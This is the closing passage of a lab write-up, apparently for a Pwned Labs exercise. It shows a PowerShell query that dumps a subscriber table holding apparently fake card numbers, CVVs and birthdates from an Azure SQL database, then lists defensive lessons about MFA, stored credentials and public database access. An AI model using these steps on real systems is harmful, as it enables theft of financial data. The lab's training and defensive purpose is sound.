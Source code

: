 Let's query the data. 
```
$sqlcmd = $conn.CreateCommand()
$sqlcmd.Connection = $conn
$query = "SELECT * FROM Subscribers;"
$sqlcmd.CommandText = $query
$adp = New-Object System.Data.SqlClient.SqlDataAdapter $sqlcmd
$data = New-Object System.Data.DataSet
$adp.Fill($data) | Out-Null
$data.Tables | ft
```
```
└─PS> $data.Tables | ft

SubscriberID                         CardNumber       ExpiryDate            CVV FullName                               BirthDate
------------                         ----------       ----------            --- --------                               ---------
ebb7c066-b630-4794-9d3a-06451a685b65 4532756279624064 12/1/2025 12:00:00 AM 123 Alex Smith                             6/15/1990 12:00:00 AM
d4148d1d-f65e-45da-93fe-a47e39fa011b 5399832489200328 11/1/2023 12:00:00 AM 311 Jamie Doe                              3/22/1982 12:00:00 AM
076409fd-f8c6-4bd2-ac63-f38eb3245414 6011169726455487 1/1/2024 12:00:00 AM  667 Casey Johnson                          9/5/1975 12:00:00 AM
72394343-72ea-4c69-b3af-83609a7a22e3 4539588563664805 7/1/2025 12:00:00 AM  542 Jordan Bennett                         11/8/1992 12:00:00 AM
94f24f3a-e5c8-4708-a581-57557c6007cd 4024007137761885 12/1/2023 12:00:00 AM 234 Taylor Young                           4/16/1987 12:00:00 AM
<SNIP>
```

We see that the personally identifiable information (PII) of subscribers have not been protected, as their financial and personal information haven't been encrypted.

# Defense
This part is from [lab's defense section](https://pwnedlabs.io/labs/loot-exchange-teams-sharepoint-with-graphrunner)

There are few issues:
- Lack of MFA on logging on to Microsoft 365 and Azure. 
  - Allows enumeration of the license details and access various services, including Teams, Email (Exchange) SharePoint and OneDrive. 
- There were credentials, passwords and sensitive details in the email, documents, chat. 
  - This unlocked access to several critical financial systems, including an Azure SQL database that contained customer subscription details, including financial data. 
- Public access to database. 
  - Increases the risk of someone successfully brute forcing the database login details, or gaining credentials and being able to access it. 
  - Better to estrict network access to only the IP addresses or ranges that require it.
